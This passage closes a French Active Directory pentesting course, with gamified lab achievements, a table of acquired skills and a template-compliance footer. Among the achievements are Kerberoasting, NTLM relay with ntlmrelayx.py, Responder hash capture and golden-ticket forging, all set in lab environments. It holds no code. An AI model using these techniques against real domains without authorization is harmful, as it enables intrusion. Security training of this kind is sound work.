| Succès | Condition | Bonus XP |
| ------ | --------- | -------- |
| 👑 **Premier domaine** | Obtenir un shell sur un DC de labo (GOAD ou HTB) | +100 XP |
| 🧭 **Cartographe** | Lancer une collecte BloodHound complète et lire un chemin d'attaque | +50 XP |
| 🔥 **Roaster** | Réussir un Kerberoasting et casser le TGS | +50 XP |
| 🌑 **AS-REP hunter** | Réussir un AS-REP Roasting | +50 XP |
| 📡 **Poisoner** | Capturer un hash NetNTLMv2 avec Responder | +50 XP |
| 🔁 **Relayeur** | Réussir un SMB relay avec `ntlmrelayx.py` | +100 XP |
| 🔑 **Domain Master** | Forger et utiliser un golden ticket (TP1) | +100 XP |
| 📋 **Rapporteur** | Rédiger un rapport de chemin d'attaque complet (TP1) | +100 XP |
| 💪 **Zero help** | Résoudre un mini challenge sans aucun indice | +50 XP |
| 🏆 **Forest Slayer** | Résoudre la machine HTB Forest de bout en bout | +100 XP |

### Compétences acquises

À la fin de ce niveau, tu as validé les compétences suivantes (utiles pour ton profil et tes entretiens) :

| Compétence | Niveau atteint |
| ---------- | -------------- |
| Architecture et administration AD | Autonome |
| Authentification Kerberos et NTLM | Autonome |
| Énumération LDAP et graphes BloodHound | Autonome |
| Attaques d'authentification (Kerberoast, AS-REP) | Autonome |
| Attaques réseau (LLMNR, relais) | Intermédiaire |
| Mouvement latéral (PtH, PtT, OTH) | Autonome |
| Contrôle de domaine (DCSync, golden/silver ticket) | Intermédiaire |
| Persistance AD et backdoors | Intermédiaire |
| Durcissement et détection AD | Intermédiaire |
| Rédaction de rapports de pentest AD | Autonome |

> 📌 **Règle de validation** : comme pour tous les niveaux, le cours est validé avec un score ≥ 80 % au quiz. Les bonus XP des succès s'ajoutent aux 1750 XP de base. Niveau 10 — Red Team débloqué 👑

---

*📄 Ce cours compte **2443 lignes** et contient bien les **16 sections** obligatoires du template CyberAcademy : Présentation, Objectifs pédagogiques, Vue d'ensemble, Théorie, Visualisation, Démonstration, Cas réels, Laboratoires, Mini Challenges, Quiz, Cheat Sheet, Pièges fréquents, Conseils professionnels, Résumé, Progression et Gamification.*
